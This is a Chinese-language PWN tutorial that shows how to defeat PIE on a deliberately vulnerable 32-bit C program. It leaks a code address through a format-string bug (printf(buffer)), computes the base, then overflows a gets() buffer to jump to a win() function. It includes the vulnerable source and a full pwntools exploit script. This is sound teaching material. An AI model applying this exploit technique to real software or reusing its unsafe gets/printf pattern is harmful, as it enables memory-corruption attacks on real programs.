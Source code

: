 ```yaml
---
title: '通过格式化字符串绕过 PIE'
date: '2023-08-22'
lastmod: '2023-08-22'
tags: ['PWN', 'Stack']
draft: false
summary: '无已知地址绕过 PIE'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

## 0x01 源码

LINK

```c:source.c
#include <stdio.h>

void vuln() {
  char buffer[20];

  printf("What's your name?\n");
  gets(buffer);
  
  printf("Nice to meet you ");
  printf(buffer);
  printf("\n");

  puts("What's your message?");

  gets(buffer);
}

int main() {
  vuln();

  return 0;
}

void win() {
  puts("PIE bypassed! Great job :D");
}
```

与上篇文章不同的是，这次我们没有得到任何一个函数的绝对地址，我们必须使用其它手段来泄漏它。

## 0x02 分析

```
$ ./vuln-32
What's your name?
%p
Nice to meet you 0xf7f3e000
What's your message?
hello
```

测试发现可以使用格式化字符串来泄漏地址。

## 0x03 利用

### 1x01 基础信息

和上次一样，我们首先设置好一些基本内容。

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()
```

### 1x02 泄漏 PIE

现在我们只需要泄漏地址就好了，我们可以在 `pwndbg` 里面尝试一些不同的偏移量来测试。

```
$ pwndbg vuln-32
What's your name?
%p %p %p %p %p
Nice to meet you 0xf7fc6000 (nil) 0x565561d5 (nil) (nil)
What's your message?
hello
```

第 3 个看起来像一个函数的地址，让我们检查一下第 3 个泄漏值和基地址之间的差异。在格式化字符串泄漏的值之后的某个位置设置一个断点（在哪里并不重要）。

你也可以直接把断点下在泄漏的这个值上面，设这个断点只是为了能够让我们调试程序。

```
$ pwndbg vuln-32
$ r
What's your name?
%3$p
Nice to meet you 0x565561d5
[...]
$ b *0x565561d5
Breakpoint 1 at 0x565561d5
$ r
[...]
$ vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
     Start        End Perm     Size Offset File
0x56555000 0x56556000 r--p     1000      0 vuln-32
0x56556000 0x56557000 r-xp     1000   1000 vuln-32
[...]
```

我们可以看到基地址是 `0x56555000` ，泄漏的值是 `0x565561d5` 。因此，从泄漏的地址中减去 `0x11d5` 就会得到二进制文件的基地址。

<Tip>
  可以通过 `vmmap` 指令来查看程序运行的基地址。

  对于没有开启 PIE 的程序，直接用 `checksec` 也可以看到基地址。
</Tip>

```python
p.recvuntil('name?\n')
p.sendline('%3$p')

p.recvuntil('you ')
elf_leak = int(p.recvline(), 16)

elf.address = elf_leak - 0x11d5
log.success(f'PIE base: {hex(elf.address)}')
```

现在，我们只需要发送 payload 就可以了。

```python
payload = b'A' * 32
payload += p32(elf.sym['win'])

p.recvuntil('message?\n')
p.sendline(payload)

p.interactive()
```

### 1x03 最终 Exploit

```python:exp.py
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()

p.recvuntil('name?\n')
p.sendline('%3$p')

p.recvuntil('you ')
elf_leak = int(p.recvline(), 16)

elf.address = elf_leak - 0x11d5
log.success(f'PIE base: {hex(elf.address)}')

payload = b'A' * 32
payload += p32(elf.sym['win'])

p.recvuntil('message?\n')
p.sendline(payload)

p.interactive()
```

## 0x04 64-bit

同样的思路，只是 64-bit。试试看 :)

LINK

